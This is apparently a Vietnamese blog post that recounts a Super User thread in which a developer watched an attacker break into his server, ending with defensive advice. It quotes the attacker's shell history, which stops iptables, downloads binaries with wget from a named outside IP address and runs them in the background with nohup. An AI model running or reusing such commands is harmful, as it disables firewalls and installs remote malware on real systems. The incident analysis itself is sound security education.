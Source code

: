 ```yaml
---
layout: post
title:  "Live Hacking attempt thread in StackOverflow"
summary: "Tường thuật trực tiếp diễn biến các thông tin và thao tác mà hacker dùng trên chính 1 server bị hacked."
tags: Tech Security
---
```

> Thread "Did I just get hacked?": [https://superuser.com/questions/1034137/did-i-just-get-hacked](https://superuser.com/questions/1034137/did-i-just-get-hacked) 

Tường thuật trực tiếp diễn biến các thông tin và thao tác mà hacker dùng trên chính 1 server bị hacked.

```shell
  355  service iptables stop
  356  cd /tmp
  357  wget http://222.186.30.209:65534/yjz1
  358  chmod 0755 /tmp/yjz1
  359  nohup /tmp/yjz1 > /dev/null 2>&1 &
  360  chmod 777 yjz1
  361  ./yjz1
  362  chmod 0755 /tmp/yjz1
  363  nohup /tmp/yjz1 > /dev/null 2>&1 &
  364  chmod 0777 yjz1
  365  chmod u+x yjz1
  366  ./yjz1 &
  367  chmod u+x yjz1
  368  ./yjz1 &
  369  wget http://222.186.30.209:65534/yjz
  370  chmod 0755 /tmp/yjz
  371  nohup /tmp/yjz > /dev/null 2>&1 &
```

> Texts from TheNextWeb: http://thenextweb.com/dd/2016/02/10/developer-watches-as-hackers-break-into-a-server/
>
> ---
>
> If there’s two big takeaways from the post, it’s these:
>
> 1. Use private key authentication on your Linux servers to avoid brute-force attacks
> 2. Once a server like this is compromised, it needs to be destroyed
